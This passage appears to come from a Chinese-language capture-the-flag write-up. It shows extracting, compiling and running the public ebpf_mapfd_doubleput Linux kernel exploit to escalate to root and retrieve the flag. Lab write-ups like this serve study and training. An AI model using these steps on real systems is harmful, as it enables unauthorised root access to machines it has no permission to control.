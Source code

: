 对里面的压缩包再解压

```
tar -xvf 39772/exploit.tar
```

![image-20211112184517822](images/41.png)

进入脚本目录

```
cd ebpf_mapfd_doubleput_exploit
```

进行编译

```
./compile.sh
```

执行代码进行提权

```
./doubleput
```

![image-20211112185300681](images/42.png)

提权成功,拿到flag

![image-20211112185330838](images/43.png)

参考链接

https://www.cxyzjd.com/article/qq_45924653/107436226

https://blog.csdn.net/cjx529377/article/details/107835886

https://juejin.cn/post/6861055684382588942#heading-4

